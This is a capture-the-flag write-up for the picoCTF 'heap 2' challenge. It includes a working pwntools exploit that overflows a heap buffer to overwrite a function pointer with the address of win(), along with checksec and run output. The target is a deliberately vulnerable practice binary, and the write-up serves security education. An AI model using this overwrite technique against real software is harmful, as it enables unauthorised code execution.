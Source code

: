# [Pwn] heap 2

## 💡 Challenge Description

> *Can you handle function pointers?*

## 🔒 ELF Properties

```
rydzze ~ ❯ file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=d5184d264ae0c1259ba3bb7a1e20fc348b4274b0, for GNU/Linux 3.2.0, with debug_info, not stripped

rydzze ~ ❯ checksec --file=chall
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   51 Symbols        No    0               2               chall
```

## ✨ Walkthrough

```c
void win() {
    // Print flag
    char buf[FLAGSIZE_MAX];
    FILE *fd = fopen("flag.txt", "r");
    fgets(buf, FLAGSIZE_MAX, fd);
    printf("%s\n", buf);
    fflush(stdout);

    exit(0);
}

void check_win() { ((void (*)())*(int*)x)(); }
```

Once again, they have changed the program, specifically both `win` and `check_win` functions and this time we have to overwrite the value of `x` variable with the address of `win` function. Thus, when we call the `check_win` function, it will call the `win` function and print out the flag.

## ⚙ Full Script

```py
from pwn import *
elf = context.binary = ELF('./chall')

# p = process('./chall')
p = remote("mimas.picoctf.net", 52831)

WIN_ADDR = elf.sym['win']
log.success(f"WIN_ADDR: {hex(WIN_ADDR)}")

p.sendlineafter(b"Enter your choice: ", b'2')

payload = b'A' * 32 + p64(WIN_ADDR)
p.sendlineafter(b"Data for buffer: ", payload)

p.sendlineafter(b"Enter your choice: ", b'4')

flag = p.recvall(timeout=1).strip()
log.success(f"Flag: {flag.decode()}")

p.close()
```

## 🛠 Exploit

```
rydzze ~ ❯ python solve.py
[*] '/home/rydzze/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
    Debuginfo:  Yes
[+] Opening connection to mimas.picoctf.net on port 52831: Done
[+] WIN_ADDR: 0x4011a0
[+] Receiving all data: Done (42B)
[*] Closed connection to mimas.picoctf.net port 52831
[+] Flag: picoCTF{REDACTED}
```